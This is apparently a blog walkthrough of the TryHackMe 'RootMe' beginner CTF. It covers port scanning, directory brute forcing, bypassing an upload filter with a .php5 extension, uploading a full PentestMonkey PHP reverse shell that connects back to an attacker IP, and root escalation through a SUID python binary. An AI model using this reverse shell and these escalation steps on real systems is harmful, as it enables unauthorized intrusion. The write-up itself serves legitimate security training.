+++
tags = ["TryHackMe", "ctf"]
title = "RootMe - TryHackMe"
weight = 10
draft = false
images = [ "/walkthroughs/RootMe/rootme.png" ]
description = "A ctf for beginners, can you root me?"
+++


Date written: January 2025      
Date published: January 2025 

## Introduction

In this room, you will learn how to enumerate directories, exploit file upload vulnerabilities, craft reverse shells, and exploit SUID permissions misconfigurations.

## Task 1: Deploy the machine 

As always the first step to a TryHackMe room is to connect to either OpenVPN or AttackBox. If you have never connected to [OpenVPN](https://tryhackme.com/room/openvpn) or [AttackBox](https://tryhackme.com/room/tutorial) before try their respective rooms to for a tutorial on how to connect to each one. 

> Deploy the machine

> Answer: No answer needed

## Task 2: Reconnaissance  

Next if you want to use the commands in the walk through with out having to type in your IP every time you can set your IP using the below export command, but make sure to change "10.10.10.10" to your target machine IP. After this is set most programs will take $IP as the variable you just set. 

If you need to use a URL you can either set the variable again or type http://$IP in the command.

```export IP=10.10.10.10```

After your connected to THM you can run an nmap scan on your host with ```nmap $IP```. You only need to look at the most common 1000 ports right now so just a [basic scan](https://nmap.org/book/man-port-specification.html) is fine.  



> Scan the machine, how many ports are open?

> Answer: 2

After a basic NMAP scan I like to run ```nmap -sC -sV $IP```. This will run the default nmap scripting engine (nse) scripts (-sC) and then check for the service version (-sV) of each port. You can also specify the ports to scan with ```-p 22, 80```. This saves scan time, because you already know, out of the top 1000 ports, only 22 and 80 are open.

This should also give you the answer for the next two questions. 



```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> What version of Apache is running?

> Answer: 2.4.29

> What service is running on port 22?

> Answer: ssh

> Find directories on the web server using the GoBuster tool.

> Answer: No answer needed

The next step is to use GoBuster to find a hidden directory. If you have never used Gobuster, [HackerTarget](https://hackertarget.com/gobuster-tutorial/) does a great job at explaining how to use it. For this use case you can skip down to "Gobuster DIR command" in the tutorial, but Gobuster does a lot of great things if you have time to read the full article. 

If you don't like GoBuster another tool to use is Dirbuster. [HackerSploit](https://www.youtube.com/watch?v=Hnz1d4WmD5Y) has a great and quick video tutorial on how to use it. 
Dirbuster is great is you are not yet comfortable running a lot of things in the terminal, because it has a user interface. 

To use GoBuster I like to start with just a common word list, below I chose ```/usr/share/dirb/wordlists/common.txt```. You can use a word list from [SecLists](https://github.com/danielmiessler/SecLists) like ```Discovery/Web-Content/common.txt``` as well.

```gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt```



To use DirBuster there are a few additional setting you will need to be aware of, but first start the program by typing ```dirbuster``` into your terminal. First you will want to add in your target URL ```http://10.10.196.184```, then specify a wordlist. I, again, ```used usr/share/dir/wordlists/common.txt```
You are only brute forcing directories for RootMe, so you want to make sure to uncheck all of the starting options except "Brute Force Dirs" at the bottom. 
Once all your options are set, click start.



After the scan finishes, you may need to click stop or pause to stop the scan. Once stopped you can head over to the results tab to see the directories it found.




Regardless of which scanning tool you chose lets take a look at the directories they found.

```bash
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.196.184/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.196.184/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.196.184/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.196.184/uploads/]
```

Before navigation to the directories I like to understand what each [browser status](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status) code means. 

403 means that page is forbidden so you know that you cannot acces any of the pages with a 403 status.
Next is [301](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/301) which is the interesting status in our case. This means that the page has moved, but what happens if you navigate to the /panel page.


It should bring you to an page that allows uploads.

> What is the hidden directory?

> Answer: /panel/


## Task 3: Getting a shell

The first thing I think of is can you upload a reverse shell? Spoiler: the answer is yes, but what file extensions does the server accept?

After some trial and error I found that it accepts .sh, but nothing happened. It also would not allow .php files, but from previous experience I know there are several different php file [extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) - .php, .php3, .php4, .php5, .php7, and .php8. With each of these you can also change their case to capitalize all or a portion of the extensions. Sometimes that will allow you to get around an extension block. 

After a little research and trial and error you should find that .php5 is an allowed upload. Now you can craft your shell. 



For shells I like to use [Reverse Shell Generator](https://www.revshells.com/). It has a list of prebuilt reverse, blind, MSFVenom, and Hoax Shells. Once on that page, first input your personal host IP and listening port. I tend to use 1234 as my listening port, but you can choose any port you'd like as long as it is not in use on your machine. Then scroll down or search until you ```PHP PentestMonkey``` download or copy and paste the shell into a file. Save the file something like shell.php5. 


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Now you can upload your shell to the /panel page. To verify it has been successfully uploaded browse to http://ATTACKIP/uploads. You should see your upload there. 

In your terminal set up a [listener](https://www.youtube.com/watch?v=1kHXf51Sqpk&t=1s). This will be the same port you specified in your shell.

```nc -lvnp 1234```

Now that your listener is set up, you can either click on your shell in the /uploads directory or curl the shell like the below.

```curl http://10.10.196.184/uploads/shell.php5 ```

You should get a connection. Now that you have a connection I like to upgrade my shell a little with the following commands.

```cat /etc/shells``` will tell you which shells are available. If you want to use a specific shell.

```python --version``` will tell you which python version, if any, is available on the host. In our case it's python 2.

```python2 -c 'import pty;pty.spawn("/bin/bash")'``` This will upgrade our basic shell into a bash shell.




The next thing to do is to find and cat the user flag. 

```find / -type f -name user.txt 2> /dev/null```

One of my favorite websites is [explainshell.com](https://explainshell.com). Try typing in the above command to learn what it does. 

```cat /var/www/user.txt```

> user.txt

> Answer: cat /var/www/user.txt


## Task 4: Privilege escalation

The first task asks you to search for files with SUID permissions. You can do this with the following find command ```find / -perm -u=s -type f 2>/dev/null```. This searches all files where the current user can execute the file as if they were the owner, even if that file owner is root.

Now you can look through this list to see which file looks out of the ordinary. 



> Search for files with SUID permission, which file is weird?

> Answer: /usr/bin/python

> Find a form to escalate your privileges.

> Answer: No answer needed

Next you can use GTFOBins to find the correct bypass for [python](https://gtfobins.github.io/gtfobins/python/).



Since you know python is already installed you can skip the first line in GTFOBins. Remember to specify your path and you should be able to escalate to root.

```python
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Once you are root all that is left to do is find (```find / -type f -name root.txt```) and cat (```cat /root/root.txt ```) the flag.


```cat /root/root.txt ```



> root.txt

> Answer: cat root.txt

